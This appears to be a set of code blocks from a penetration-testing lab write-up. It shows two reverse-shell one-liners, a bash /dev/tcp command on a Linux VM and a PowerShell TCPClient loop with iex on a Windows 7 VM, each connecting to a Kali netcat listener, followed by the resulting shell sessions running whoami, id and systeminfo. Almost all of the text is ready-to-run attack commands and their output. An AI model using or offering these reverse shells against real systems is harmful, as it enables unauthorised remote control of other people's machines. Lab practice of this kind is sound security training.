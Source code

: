 ```
nahida@nahida-virtual-machine:~$ bash -i >& /dev/tcp/192.168.213.128/1234 0>&1
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.132] 47360
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

nahida@nahida-virtual-machine:~$ whoami
whoami
nahida
nahida@nahida-virtual-machine:~$ id
id
uid=1000(nahida) gid=1000(nahida) groups=1000(nahida),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
nahida@nahida-virtual-machine:~$ 
```

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.213.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```

```
C:\Users\IEUser>powershell -nop -c "$client = New-Object System.Net.Sockets.TCPC
lient('192.168.213.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..
65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (
New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendbac
k = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path +
 '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($s
endbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.131] 49213

PS C:\Users\IEUser> whoami
iewin7\ieuser
PS C:\Users\IEUser> systeminfo

Host Name:                 IEWIN7
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          
Registered Organization:   Microsoft
Product ID:                00392-972-8000024-85559
Original Install Date:     3/6/2018, 11:10:22 AM
System Boot Time:          4/21/2023, 6:08:33 PM
```